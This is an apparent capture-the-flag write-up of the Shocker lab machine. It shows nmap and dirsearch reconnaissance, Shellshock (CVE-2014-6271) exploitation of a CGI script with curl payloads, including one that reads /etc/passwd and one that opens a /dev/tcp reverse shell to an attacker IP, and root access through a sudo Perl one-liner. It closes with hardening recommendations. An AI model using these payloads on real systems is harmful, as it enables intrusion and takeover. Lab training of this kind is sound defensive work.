

# Shocker CGI Exploitation & Privilege Escalation Walkthrough

This professional report details the complete exploitation of the **Shocker** target machine.  
It outlines the identification and exploitation of a vulnerable CGI script affected by **Shellshock (CVE-2014-6271)**, followed by privilege escalation to root through misconfigured sudo permissions.

---

## 1. Initial Reconnaissance

We started with a full Nmap port scan to identify open services on the host `10.129.34.42`:

```bash
nmap -p- -Pn 10.129.34.42 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.34.42 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.34.42 -v --script vuln -oN nmap_vuln.txt
```



The results revealed an **HTTP service**, suggesting a web application vulnerable to command injection or CGI-based exploits.

---

## 2. Web Enumeration & Discovery

While subdomain enumeration yielded no results, **Dirsearch** identified a `/cgi-bin/` directory — a known vector for legacy CGI vulnerabilities.



Within this directory, we found a file named **user.sh**.



Using `curl`, we confirmed that this script executed system commands related to uptime reporting, implying potential command execution.



---

## 3. Vulnerability Identification — Shellshock (CVE-2014-6271)

Given the Bash-based CGI script, we suspected **Shellshock**, a critical vulnerability in Bash that allows arbitrary command execution through environment variable injection.

We reviewed the official reference:  
🔗 [https://github.com/opsxcq/exploit-CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271)



To test the vulnerability, we used a proof-of-concept payload:

```bash
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://shocker.htb/cgi-bin/user.sh
```



The response confirmed successful code execution, proving the target was vulnerable to **Shellshock**.

---

## 4. Gaining Reverse Shell Access

We replaced the command payload with a reverse shell to obtain remote access:

```bash
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'sh -i >& /dev/tcp/10.10.15.30/4444 0>&1'" http://shocker.htb/cgi-bin/user.sh
```



The connection succeeded, granting an interactive shell under the **shelly** user account.



The **user flag** was found in `/home/shelly/user.txt`.

---

## 5. Privilege Escalation — Perl Misconfiguration

Running `sudo -l` revealed that the **shelly** user could execute **Perl** as root without requiring a password.



We exploited this using a one-liner to spawn a root shell:

```bash
sudo perl -e 'exec "/bin/sh";'
```

This granted **root-level access**, and we retrieved the **root flag** from `/root/root.txt`.



---

## 6. Conclusion

This assessment demonstrates how a vulnerable CGI script combined with improper sudo permissions leads to a full system compromise.

### Key Findings:
- Unpatched Bash interpreter allowed exploitation via **Shellshock (CVE-2014-6271)**.  
- Poor web server hardening exposed a vulnerable CGI endpoint.  
- Misconfigured `sudo` privileges allowed arbitrary code execution through Perl.

### Security Recommendations:
- Disable legacy CGI support in Apache and remove outdated scripts.  
- Patch Bash to mitigate CVE-2014-6271 and related Shellshock vulnerabilities.  
- Implement strict input validation and sanitize all CGI variables.  
- Restrict `sudo` privileges and avoid granting interpreter-level root access.  
- Conduct periodic vulnerability scans and configuration reviews.

---
